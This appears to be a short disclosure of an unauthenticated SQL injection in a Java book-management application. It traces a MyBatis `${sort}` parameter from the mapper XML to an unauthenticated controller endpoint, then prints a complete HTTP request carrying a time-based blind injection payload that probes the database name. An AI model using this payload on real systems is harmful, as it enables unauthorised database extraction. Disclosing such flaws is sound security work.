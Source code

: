 First find `${sort}` in `src\main\resources\mybatis\mapping\BookMapper.xml`, there is sql injection:

![image-20250412140005967](image-20250412140005967.png)

Trace up to the Dao layer:

![image-20250412140124919](image-20250412140124919.png)

Continue tracing to the Service layer:

![image-20250412140225533](image-20250412140225533.png)

Trace to the Controller layer:

![image-20250412140317967](image-20250412140317967.png)

The interface has no authentication, so there is a foreground sql injection, payload:
```
GET /book/searchByPage?sort=if(SUBSTR(DATABASE(),1,1)='n',sleep(1),1) HTTP/1.1
Host: 192.168.111.71:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.6832.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.71:8080/book/bookclass.html?k=111111
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
Connection: close


```

![image-20250412140530992](image-20250412140530992.png)
